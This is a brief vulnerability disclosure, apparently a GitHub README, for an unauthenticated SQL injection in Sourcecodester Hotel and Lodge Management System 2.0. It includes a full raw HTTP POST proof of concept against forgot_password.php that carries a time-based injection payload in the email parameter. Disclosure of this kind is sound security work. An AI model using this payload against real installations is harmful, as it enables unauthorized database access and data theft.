 HOTEL AND LODGE MANAGEMENT SYSTEM 2.0 SQLI

Disclosure date: 11/22/19

Sourcecodester Hotel and Lodge Management System 2.0 is vulnerable to unauthenticated SQL injection and can allow remote attackers to execute arbitrary SQL commands via the 'email' parameter to the edit page for Customer, Room, Currency, Room Booking Details, or Tax Details.

download:

https://www.sourcecodester.com/php/13707/hotel-and-lodge-management-system.html

Proof of Concept:

http://192.168.234.128/forgot_password.php

POST:btn_forgot=1&email=1' or sleep(5)%23

POC:
```
POST /forgot_password.php HTTP/1.1
Host: 192.168.234.128
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

btn_forgot=1&email=1' or sleep(5)%23
```

![Image text](1.jpg)
![Image text](2.jpg)
![Image text](3.jpg)

by h1tler@knownsec

email:h1tlermk6@gmail.com
